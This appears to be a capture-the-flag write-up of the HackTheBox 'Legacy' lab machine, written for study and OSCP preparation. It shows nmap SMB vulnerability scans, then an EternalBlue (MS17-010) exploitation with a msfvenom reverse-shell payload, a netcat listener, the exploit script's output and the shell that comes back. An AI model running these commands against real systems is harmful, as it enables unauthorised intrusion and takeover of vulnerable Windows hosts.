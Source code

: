 # Legacy

## IP
The IP address for this machine on HackTheBox was `10.10.10.4`.

## NMap Scan
```
sudo nmap -A 10.10.10.4 -p139,445 -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
```

This time with NSE Scripts turned on...
	
``` 
kali@kali:~$ sudo nmap -A 10.10.10.4 -p139,445 --script=smb-vuln-* -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
...
...
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.***
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14 
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
...
... 
```

## MS17-010 (CVE-2017-0143)
This is Eternal Blue. At this point, I got stuck and followed Rana Khalil's walkthrough (https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit). I downloaded Impacket into my Ptyhon2.7 directory along with https://github.com/helviojunior/MS17-010.git exploit code. 

From there, I created a reverse Windows TCP shell using meterpreter:

```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe```

This creates a reverse Windows TCP shell called "reverse-shell.exe" that attempts to connect to my local machine on port 4444.

## Exploit
From there I started a Netcat listener on port 4444:

```nc -nlvp 4444```

And using helviojunior's ***send_and_execute.py*** script, sent the exploit to the target machine:

```
kali@kali:~/Desktop/OSCP/Legacy/MS17-010 manual exploit/MS17-010-master$ python send_and_execute.py 10.10.10.4 ../../reverse-shell.exe 
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8200d010
SESSION: 0xe105dde8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1adbf10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1adbfb0
overwriting token UserAndGroups
Sending file ON6AFZ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service JUNd.....
Starting service JUNd.....
The NETBIOS connection with the remote host timed out.
Removing service JUNd.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Catch on the listener:

```
kali@kali:~/Desktop/OSCP/Legacy$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

This exploit automatically escalates to administrator rights on the target and from there it's just navigating to the proper directories to grab the user and root flags.
